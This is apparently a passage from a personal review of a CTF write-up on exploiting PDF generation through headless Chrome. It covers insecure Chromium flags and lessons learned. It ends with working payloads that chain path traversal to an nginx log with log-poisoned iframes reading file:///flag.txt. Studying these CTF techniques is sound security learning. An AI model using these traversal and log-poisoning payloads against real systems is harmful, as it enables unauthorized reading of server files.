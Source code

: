 Overall I agreed with the author's conclusions though, and summarized them here along with my own notes:
- PDF generation (frontend or backend) **cannot** be trusted, and if one is seen in a CTF, it's an immediate cause for suspicion.
- LFI vulnerabilities can lead to arbitrary file read through many different avenues, but XSS / HTML injection is a big one if another service is involved.
- Headless browsers have different security measures than normal browsers (usually weaker).
- There are many different ways and protocols to use to make requests in HTMl / JS context. The use of these protocols can also lead to bypassing some security measures (like the web server being blocked from accessing the flag, but the headless chrome instance being allowed to access it).

Launching headless chrome with weakened security and broader access does appear to be an explicit choice though:

```bash
# Often launched with relaxed security
chromium --headless --no-sandbox --disable-web-security --allow-file-access-from-files
```

- `--no-sandbox` - The sandbox hardens the headless instance and "removes unnecessary privileges from the processes that [don't need them](https://unix.stackexchange.com/questions/68832/what-does-the-chromium-option-no-sandbox-mean)".
- `--disable-web-security` - Disables CORS.
- `--allow-file-access-from-files` - Enables access to [local files](https://chrome-allow-file-access-from-file.com).

These are all popular flags in dev configurations though, as they're most likely testing files from their own machine, with no certs, that use JavaScript, so they'd prefer a smoother / easier means of testing while developing.
#### what i've done to remedy this

- Added an LFI payload list to my personal wordlist repo. 
- Added an XSS payload list to my personal wordlist repo.
- Reviewed an article by woFF titled "[Arbitrary file read tricks with headless browsers](https://medium.com/@woff/arbitrary-file-read-tricks-with-headless-browsers-eeebc2d9e5c8)", where they go over some techniques surrounding exploiting headless browsers. (Despite the misnomer about `view-source:file:///` vs `file:///`, I live in Burp mostly, so a page *appearing* blank isn't an issue.)
- Reviewed the exploit chain step-by-step.

Shoutout to `stuub` on the NahamSec Discord for the great write-up! 🙌 It was a fun read and I enjoyed reviewing it and taking notes.

#### post-review

A new winning payload has emerged...

```html
/api/log.php?log=../../../../../../var/log/nginx/access.log&pwn=<iframe src='file:///flag.txt' width='500' height='500'></iframe>
```

Another user said to:
1. Send this request: 
```html
GET /api/update.php?asd=BEFORE<iframe src='file:///flag.txt' width=900 height=300 ></iframe>AFTER
```
2. Then visit the log in the browser:
```
/api/log.php?log=../../../../../../../../../var/log/nginx/access.log
```
